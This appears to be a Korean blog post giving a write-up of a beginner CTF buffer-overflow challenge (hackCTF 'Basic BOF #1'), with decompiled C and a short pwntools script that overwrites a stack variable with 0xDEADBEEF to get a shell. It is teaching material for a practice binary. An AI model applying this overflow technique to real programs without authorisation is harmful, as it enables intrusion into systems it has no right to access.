 ```yaml
---
layout: post
title:  "[hackCTF]Basic BOF #1"
date:   2020-02-09
categories: c python
---
```

hackCTF pwnable 첫번째 문제

## ida
***
```c
  int __cdecl main(int argc, const char **argv, const char **envp)
  {
    char s; // [esp+4h] [ebp-34h]
    int v5; // [esp+2Ch] [ebp-Ch]

    v5 = 67305985;
    fgets(&s, 45, stdin);
    printf("\n[buf]: %s\n", &s);
    printf("[check] %p\n", v5);
    if ( v5 != 67305985 && v5 != -559038737 )
      puts("\nYou are on the right way!");
    if ( v5 == -559038737 )
    {
      puts("Yeah dude! You win!\nOpening your shell...");
      system("/bin/dash");
      puts("Shell closed! Bye.");
    }
    return 0;
```   
코드를 보면 v5가 -559038737일 때 shell을 실행할 수 있다.   
우리가 직접 수정할 수 있는 건 s이다.   
payload를 v5까지 덮을 수 있도록 만들자.


## exploit.py
***
```python
  #!/usr/bin/python
  from pwn import *

  p = process('./bof_basic')

  payload = "A"*(0x2c-0x4)+p32(0xDEADBEEF)

  p.sendline(payload)

  p.interactive()
```
-559038737는 hex로 0xDEADBEEF다. p32 방식으로 패킹해서 payload를 만들면 끗.  
p32 : little endian 방식으로 패킹해줌 (u32 : 언패킹)
